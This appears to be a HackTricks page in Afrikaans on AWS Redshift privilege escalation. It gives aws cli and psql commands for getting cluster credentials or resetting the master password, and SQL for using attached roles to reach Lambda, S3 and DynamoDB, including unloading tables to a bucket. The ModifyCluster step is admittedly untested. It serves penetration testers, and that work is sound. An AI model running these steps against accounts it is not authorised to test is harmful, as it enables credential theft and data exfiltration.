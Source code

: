 # AWS - Redshift Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Redshift

Vir meer inligting oor RDS, kyk:

{{#ref}}
../aws-services/aws-redshift-enum.md
{{#endref}}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

Met hierdie toestemmings kan jy **inligting van al die klusters** verkry (insluitend naam en kluster gebruikersnaam) en **kredensiale** kry om toegang te verkry:
```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

Met hierdie toestemmings kan jy **inligting van al die klusters** kry en **kredensiale** verkry om toegang te verkry.\
Let daarop dat die postgres gebruiker die **toestemmings sal hê wat die IAM identiteit** wat gebruik is om die kredensiale te verkry, het.
```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Dit is moontlik om die **hoofwagwoord** van die interne postgres (redshit) gebruiker vanaf aws cli te **wysig** (Ek dink dit is die regte toestemmings wat jy nodig het, maar ek het dit nog nie getoets nie):
```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```
**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

## Toegang tot Eksterne Dienste

> [!WARNING]
> Om toegang te verkry tot al die volgende hulpbronne, sal jy **die rol wat gebruik moet word** moet **specifiseer**. 'n Redshift-kluster **kan 'n lys van AWS-rolle toegeken hê** wat jy kan gebruik **as jy die ARN ken** of jy kan net "**default**" stel om die standaard een wat toegeken is, te gebruik.

> Boonop, soos [**hier verduidelik**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), laat Redshift ook toe om rolle te concat (solank die eerste een die tweede een kan aanvaar) om verdere toegang te verkry, maar net **deur** hulle met 'n **komma** te **skei**: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`

### Lambdas

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r_CREATE_EXTERNAL_FUNCTION.html), is dit moontlik om **'n lambda-funksie vanaf redshift aan te roep** met iets soos:
```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```
### S3

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), is dit moontlik om **te lees en te skryf in S3-buckets**:
```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```
### Dynamo

Soos verduidelik in [https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t_Loading-data-from-dynamodb.html), is dit moontlik om **data van dynamodb te verkry**:
```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```
> [!WARNING]
> Die Amazon DynamoDB tabel wat die data verskaf, moet in dieselfde AWS Region as jou kluster geskep word, tensy jy die [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region) opsie gebruik om die AWS Region aan te dui waarin die Amazon DynamoDB tabel geleë is.

### EMR

Kyk na [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

- [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

{{#include ../../../banners/hacktricks-training.md}}

